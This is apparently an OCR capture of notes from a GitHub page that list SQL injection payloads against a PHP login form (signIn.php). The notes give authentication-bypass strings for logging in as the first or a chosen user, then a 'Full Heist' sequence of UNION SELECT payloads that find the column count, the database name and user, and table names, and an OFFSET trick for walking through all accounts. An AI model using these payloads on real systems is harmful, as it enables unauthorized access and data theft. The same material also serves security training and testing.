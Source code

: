 - Auth Bypass on signIn.php

  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.

- Auth Bypass with any field that may be publicly available

  1. username => 'or email='smb@gmail.com' -- '

- Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '

* Full Heist

- Get number of fields returned

  1. username = fsdfs' UNION SELECT 1, 2, 3 -- '
  2. The fsdfs is just random text to make the username query fail, since fsdfs is most likely not a real username in the system
  3. Progressively increase the number of comma-separated values in the SELECT, until if doesn't fail

- Get DB name and DB user account

  1. username = fsdfs' UNION SELECT DATABASE(), user() -- '

- Get first table name, using DB name obtained above

  1. fsdfs' UNION SELECT table_name, 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

- Get all table names, using DB name obtained above

  1. fsdfs' UNION SELECT GROUP_CONCAT(table_name), 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

- Auth Bypass with any skipping through

  1. username => 'or '1'='1' LIMIT 1 OFFSET 2 -- '
  2. OFFSET is the key value here. This way, you can go through the whole table.

